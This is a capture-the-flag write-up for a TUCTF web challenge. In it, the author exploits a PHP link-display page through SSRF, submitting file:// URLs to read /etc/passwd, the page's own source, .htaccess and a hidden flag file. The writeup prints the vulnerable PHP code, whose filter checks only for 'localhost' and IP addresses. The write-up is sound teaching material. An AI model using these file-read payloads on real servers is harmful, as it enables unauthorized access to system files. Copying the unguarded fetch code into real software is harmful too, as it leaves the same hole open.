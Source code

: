 # PHP Practice

## Description
```
Have you ever seen an image on a website, and wished you could use the link to view it from a different domain? Me neither, but I needed web dev practice so I implemented it anyways! Give it a try -- Feed my site a link and it'll load your file!
```

## Writeup

Starting off I took a look at the website. (Sadly I didn't take many screenshots during CTF so I don't have any images) <br/>
I basically saw a Website which said I can display any other websites during their website. <br/>
To me this instantly sounded like a SSRF vulnerability so I tried it with a simple one. <br/>
```
file:///etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000::/home/app:/usr/sbin/nologin
```

Getting this output I instantly knew I found the correct exploit. <br/>
Guessing the file path of the php page I also used SSRF to print it to the website. <br/>
```php
file:///var/www/html/display.php

<?php 

if ($_SERVER["REQUEST_METHOD"] == "POST") 
{ $link = $_POST["link"]; 
$validatedLink = filter_var($link, FILTER_VALIDATE_URL); 

if ($validatedLink) { // Fetch the content of the link 
$parsedUrl = parse_url($validatedLink); 
$host = $parsedUrl['host']; 
$ipv4Pattern = '/^(?:[0-9]{1,3}\.){3}[0-9]{1,3}$/'; 

if (strtolower($host) == 'localhost') { 
echo("Invalid link. Please provide a valid external link."); 
exit(); } 

if (preg_match($ipv4Pattern, $host)) { 
echo("Error! Please avoid using IP addresses!"); 
exit(); } 

$content = @file_get_contents($validatedLink); 
$imageInfo = @getimagesize($validatedLink); 
if ($imageInfo !== false) { // If the content is an image, embed it in the HTML 

echo "<!DOCTYPE html> <html lang='en'> <head> <meta charset='UTF-8'> <meta name='viewport' content='width=device-width, initial-scale=1.0'> <title>Link Content Display</title> </head> <body> <h2>Content of the Link</h2> <img src='" . $validatedLink . "' alt='Embedded Image'> </body> </html>"; } 

else { // If the content is not an image, display it as plaintext

echo "<!DOCTYPE html> <html lang='en'> <head> <meta charset='UTF-8'> <meta name='viewport' content='width=device-width, initial-scale=1.0'> <title>Link Content Display</title> </head> <body> <h2>Content of the Link</h2> <p>" . htmlspecialchars($content) . "</p> </body> </html>"; } } 
else { 
echo("Invalid link provided."); } } 
else { // If the form is not submitted through POST, redirect to the form page 
header("Location: index.html"); 
exit(); } ?>
```

Now this didn't really give me any useful information and I didn't find a critical vulnerability in the code. <br/>
Continuing I tried to enumerate any useful file and finally found a common apache file `.htaccess`. <br/>
```
file:///var/www/html/.htaccess
```

I didn't save the actual output but it did include the file `gcfYAvzsbyxV.txt` and using SSRF I read the final file. <br/>
```
file:///var/www/html/gcfYAvzsbyxV.txt

TUCTF{th1s_i5_my_secr3t_l0c@l_f1le!}
```
